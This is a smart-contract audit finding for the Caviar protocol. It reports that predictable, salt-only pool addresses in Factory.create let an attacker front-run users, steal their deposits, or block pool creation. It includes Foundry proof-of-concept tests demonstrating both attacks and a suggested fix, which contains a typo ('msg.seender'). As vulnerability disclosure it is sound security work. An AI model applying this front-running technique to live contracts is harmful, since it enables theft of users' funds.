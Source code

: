 # Original link
https://github.com/code-423n4/2023-04-caviar-findings/issues/419
# Lines of code

https://github.com/code-423n4/2023-04-caviar/blob/main/src/Factory.sol#L92


# Vulnerability details

## Impact
The `Factory.create` function is responsible for creating new `PrivatePool`s. It does this using the `LibClone.cloneDeterministic` function.

```solidity
    function create(
        ...
        bytes32 _salt,
        ...
    ) public payable returns (PrivatePool privatePool) {
        if ((_baseToken == address(0) && msg.value != baseTokenAmount) || (_baseToken != address(0) && msg.value > 0)) {
            revert PrivatePool.InvalidEthAmount();
        }

        // deploy a minimal proxy clone of the private pool implementation
        privatePool = PrivatePool(payable(privatePoolImplementation.cloneDeterministic(_salt)));

        // ...
    }
```

The address of the new PrivatePool depends solely upon the `_salt` parameter provided by the user. Once the user's create transaction is broadcasted, the  `_salt` parameter can be viewed by anyone watching the public mempool.

This public readability of `_salt` parameter creates two issues:

1. Stealing of user's deposit amount.
If a user intends to create new pool and deposit some funds in it then an attacker can frontrun the user's txns and capture the deposit amounts. Here is how this can happen:
     - User broadcasts two txns, first one to create a pool with `XXX` as the salt and second one to deposit some ETH into the new pool.
     - The attacker views these pending txns and frontruns them to create a PrivatePool for himself with same `XXX` salt.
     - The new pool gets created for the attacker, the address of this pool will be same as what the user will be expecting for his pool.
     - The user's create pool txn gets reverted but deposit txn gets executed successfully. Hence the user deposited ETH in  attacker's pool.
     - Being the owner of the pool the attacker simply withdraws the deposited ETH from the PrivatePool.

2. DoS for `Factory.create`.
If a user intends to create a PrivatePool, his create txn can be forcefully reverted by an attacker by deploying a pool for himself using the user's salt. Here is how this can happen:
    - The user broadcasts the create pool txn with salt `XXX`.
    - The attacker frontruns the user's txn and creates a pool for hiself using the same `XXX` salt.
    - The user's original create txn gets reverted as attacker's pool already exist on the predetermined address.
    - This attack can be repeated again and again resulting in DoS for the `Factory.create` function.

## Proof of Concept
These test cases were added to `test/PrivatePool/Withdraw.t.sol` file and were ran using `forge test --ffi --mp test/PrivatePool/Withdraw.t.sol --mt test_audit`

```solidity
    function test_audit_create_stealDeposit() public {
        address user1 = makeAddr("user1");
        vm.deal(user1, 10 ether);
        vm.startPrank(user1);

        address predictedAddress = factory.predictPoolDeploymentAddress(bytes32(0));

        // tries to create pool and deposit funds
        // 1. factory.create(...)
        // 2. pool.deposit(...)

        // but user2 frontruns the txns

        address user2 = makeAddr("user2");
        changePrank(user2);

        uint baseTokenAmount = 0;

        PrivatePool pool = factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );
        assertEq(predictedAddress, address(pool));
        assertEq(factory.ownerOf(uint256(uint160(address(pool)))), address(user2));

        changePrank(user1);

        vm.expectRevert(LibClone.DeploymentFailed.selector);
        factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );

        pool.deposit{ value: 10 ether }(tokenIds, 10 ether);
        assertEq(address(pool).balance, 10 ether);

        changePrank(user2);
        pool.withdraw(address(0), tokenIds, address(0), 10 ether);
        assertEq(address(pool).balance, 0);
        assertEq(user2.balance, 10 ether);
    }

    function test_audit_create_DoS() public {
        address user1 = makeAddr("user1");
        vm.deal(user1, 10 ether);
        vm.startPrank(user1);

        address predictedAddress = factory.predictPoolDeploymentAddress(bytes32(0));

        // user1 tries to create pool
        // factory.create(...)

        // but user2 frontruns the txn

        address user2 = makeAddr("user2");
        changePrank(user2);

        uint baseTokenAmount = 0;

        PrivatePool pool = factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );
        assertEq(predictedAddress, address(pool));
        assertEq(factory.ownerOf(uint256(uint160(address(pool)))), address(user2));

        changePrank(user1);

        vm.expectRevert(LibClone.DeploymentFailed.selector);
        factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );
    }
```

## Tools Used
Foundry

## Recommended Mitigation Steps
Consider making the upcoming pool address user specific by combining the salt value with user's address.
```solidity
    privatePool = PrivatePool(payable(privatePoolImplementation.cloneDeterministic(
        keccak256(abi.encode(msg.seender, _salt))
    )));
```